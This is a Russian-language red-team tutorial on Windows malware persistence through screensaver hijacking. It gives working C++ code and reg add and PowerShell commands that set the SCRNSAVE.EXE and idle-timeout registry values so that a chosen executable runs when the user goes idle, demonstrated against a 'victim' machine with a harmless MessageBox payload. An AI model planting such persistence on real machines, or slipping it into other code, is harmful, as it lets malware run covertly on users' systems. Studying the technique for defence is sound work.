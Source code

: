 \newpage
\subsection{68. Разработка вредоносного ПО: закрепление (persistence) - часть 2. Захват экранной заставки. Пример на C++.}

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

Этот пост - вторая часть серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного трюка закрепления: злоупотребление экранными заставками.    

### экранные заставки

Экранные заставки - это программы, которые запускаются после заданного времени бездействия пользователя. Эта функция Windows давно используется злоумышленниками как метод закрепления. Экранные заставки - это PE-файлы с расширением `.scr` по умолчанию, а их настройки хранятся в следующих ключах реестра:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

Значение `1` включает экранную заставку.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - задаёт    
тайм-аут бездействия пользователя перед запуском экранной заставки.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - устанавливает     
путь к приложению для выполнения.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* из [предыдущей](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) части `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для запуска `hack.exe` при бездействии пользователя `10` секунд:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новые ключи реестра для тайм-аута и пути к приложению. Ключи реестра можно добавить через терминал `cmd`:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

или с помощью команд `powershell`:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### Демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Для чистоты эксперимента сначала проверим ключи реестра на машине жертвы и удалим их, если они существуют:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы, войдём снова и подождём `10` секунд или просто остаёмся неактивными `10` секунд:    

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### заключение

Проблема этого метода закрепления в том, что сессия завершится, когда пользователь вернётся и система перестанет быть неактивной. Однако красные команды могут выполнять свои операции (например, майнинг) во время отсутствия пользователя. Если экранные заставки отключены групповой политикой, этот метод нельзя использовать для закрепления. Также можно заблокировать выполнение `.scr` файлов из нестандартных мест.

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
